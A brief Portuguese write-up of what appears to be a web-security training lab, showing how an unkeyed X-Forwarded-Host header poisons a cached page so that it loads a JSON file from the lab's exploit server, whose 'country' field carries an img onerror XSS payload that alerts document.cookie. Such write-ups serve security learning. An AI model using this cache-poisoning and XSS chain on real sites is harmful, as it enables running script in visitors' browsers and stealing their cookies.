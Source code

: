 #ctf

O HTML mostra um json: 

```html
<script>
    data = {
        "host":"example.com",
        "path":"/",
    }
</script>
```

Que pode ser alterado usando a unkeyed X-Forwarded-Host (o Param Miner descobre isso).

Esse **data.host** é usado para importar um arquivo .json através desse *script*:

```html
<script>
    initGeoLocate('//' + data.host + '/resources/json/geolocate.json');
</script>
```

Essa função **initGeolocate** presente em `/resources/js/geolocate.js` pega o atributo "country" presente no json e lança no HTML.

Usando exploit server do lab basta configurar os campos:

```
/resources/json/geolocate.json`

HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
Access-Control-Allow-Origin: *

{
"country":"<img src=1 onerror=javascript:alert(document.cookie)>"
}
```

GG